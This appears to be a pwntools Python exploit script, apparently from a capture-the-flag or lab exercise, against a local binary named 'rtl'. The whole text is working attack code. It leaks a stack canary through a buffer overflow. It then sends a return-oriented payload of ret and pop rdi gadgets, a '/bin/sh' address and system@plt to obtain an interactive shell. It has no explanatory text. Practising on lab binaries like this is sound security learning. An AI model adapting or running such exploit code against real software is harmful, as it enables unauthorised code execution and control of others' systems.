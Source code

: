     ```python
    #!/usr/bin/env python3
    # Name: rtl.py
    from pwn import *
    
    p = process('./rtl')
    e = ELF('./rtl')
    
    def slog(name, addr): return success(': '.join([name, hex(addr)]))
    
    # [1] Leak canary
    buf = b'A' * 0x39
    p.sendafter(b'Buf: ', buf)
    p.recvuntil(buf)
    cnry = u64(b'\x00' + p.recvn(7))
    slog('canary', cnry)
    
    # [2] Exploit
    system_plt = e.plt['system']
    binsh = 0x400874
    pop_rdi = 0x0000000000400853
    ret = 0x0000000000400285
    
    payload = b'A'*0x38 + p64(cnry) + b'B'*0x8
    payload += p64(ret)  # align stack to prevent errors caused by movaps
    payload += p64(pop_rdi)
    payload += p64(binsh)
    payload += p64(system_plt)
    
    pause()
    p.sendafter(b'Buf: ', payload)
    
    p.interactive()
    ```